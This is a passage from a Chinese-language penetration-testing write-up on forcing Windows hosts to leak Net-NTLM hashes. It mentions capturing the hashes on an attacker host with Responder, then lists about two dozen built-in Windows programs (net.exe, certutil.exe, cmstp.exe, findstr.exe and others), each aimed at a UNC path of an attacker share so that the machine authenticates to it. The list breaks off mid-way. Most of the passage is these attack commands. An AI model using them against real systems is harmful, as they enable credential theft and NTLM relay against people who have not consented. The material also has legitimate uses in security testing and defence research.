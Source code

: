 [![](assets/1701222524-52b24f30a0025f410a52200055fe1c3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128140934-b38037e4-8db4-1.png)  
之后在我们的攻击主机中可以看到被记录的 Net-NTLM Hash 值：  
[![](assets/1701222524-6f01fe878bf2c50128aab577452ca10f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128140947-bb6831d2-8db4-1.png)  
我们使用以下命令也可以在 responder 中获取到 Net-NTLM Hash 值：

```bash
> net.exe use \hostshare 
> attrib.exe \hostshare  
> bcdboot.exe \hostshare  
> bdeunlock.exe \hostshare  
> cacls.exe \hostshare  
> certreq.exe \hostshare #(noisy, pops an error dialog) 
> certutil.exe \hostshare  
> cipher.exe \hostshare  
> ClipUp.exe -l \hostshare  
> cmdl32.exe \hostshare  
> cmstp.exe /s \hostshare  
> colorcpl.exe \hostshare #(noisy, pops an error dialog)  
> comp.exe /N=0 \hostshare \hostshare  
> compact.exe \hostshare  
> control.exe \hostshare  
> convertvhd.exe -source \hostshare -destination \hostshare  
> Defrag.exe \hostshare  
> diskperf.exe \hostshare  
> dispdiag.exe -out \hostshare  
> doskey.exe /MACROFILE=\hostshare  
> esentutl.exe /k \hostshare  
> expand.exe \hostshare  
> extrac32.exe \hostshare  
> FileHistory.exe \hostshare #(noisy, pops a gui)  
> findstr.exe * \hostshare  
> fontview.exe \hostshare #(noisy, pops an error dialog)  
```